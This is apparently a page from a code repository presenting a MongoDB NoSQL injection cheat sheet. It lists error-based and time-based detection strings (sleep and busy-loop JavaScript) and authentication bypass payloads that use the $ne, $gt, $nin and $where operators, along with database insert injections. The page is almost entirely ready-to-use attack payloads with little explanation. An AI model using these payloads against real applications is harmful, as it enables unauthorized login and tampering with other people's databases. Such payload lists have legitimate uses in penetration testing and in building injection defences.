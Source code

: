 ### Injection detection

Two ways can be used to detect user inputs being passed un-sanitized in a
MongoDB operation:
  - special characters that would trigger a database error
  - using server-side JavaScript execution for time-based detection

```
# Error based detection
'"\;{}
'"\%3b{}
%27%22%5c%3b%7b%7d

# Time based detection - 10 seconds
# Using MongoDB builtin sleep()
1';sleep(10000);'
1'%3bsleep(10000)%3b'
# Custom sleep
1';var d = new Date(); var cd = null; do { cd = new Date(); } while(cd-d < 10000);var foo='bar
1';var%20d%20=%20new%20Date();%20var%20cd%20=%20null;%20do%20{%20cd%20=%20new%20Date();%20}%20
a'+(function(){if(typeof tmczl==="undefined"){var a=new Date();do{var b=new Date();}while(b-a<10000);tmczl=1;}}())+'
a'%2b(function(){if(typeof+tmczl%3d%3d%3d"undefined"){var+a%3dnew+Date()%3bdo{var+b%3dnew+Date()%3b}while(b-a<20000)%3btmczl%3d1%3b}}())%2b'
```

### Injection queries

###### Authentication bypass

MongoDB authentication bypass can be achieved using the `$ne` or `$gt`
operators.  
While the parameters can be left blank for the injection, a pre
check on the supplied data may require values to be provided.

```
# GET/POST key-value pairs
username[$ne]=&password[$ne]=
username[$ne]=we&password[$ne]=we
username[$gt]=&password[$gt]=
username[$gt]=we&password[$gt]=we
username[$nin][]=user1&username[$nin][]=user2&password[$ne]=we

# POST JSON
{"username": {"$ne": null}, "password": {"$ne": null} }
{"username": {"$ne": "we"}, "password": {"$ne": "we"} }
{"username": {"$gt": undefined}, "password": {"$gt": undefined} }

# Works as long as the username is correct
username=admin’, $or: [ {}, {‘a’:   ‘a&password=’ }],

# Other bypass injection payloads
true, $where: '1 == 1'
'true, $where: '1 == 1'
', $where: '1 == 1'
a', $where: '1 == 1'
'$where: '1 == 1'
'1, $where: '1 == 1'
'{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
'db.injection.insert({success:1});
'db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/.*/)//+%00
```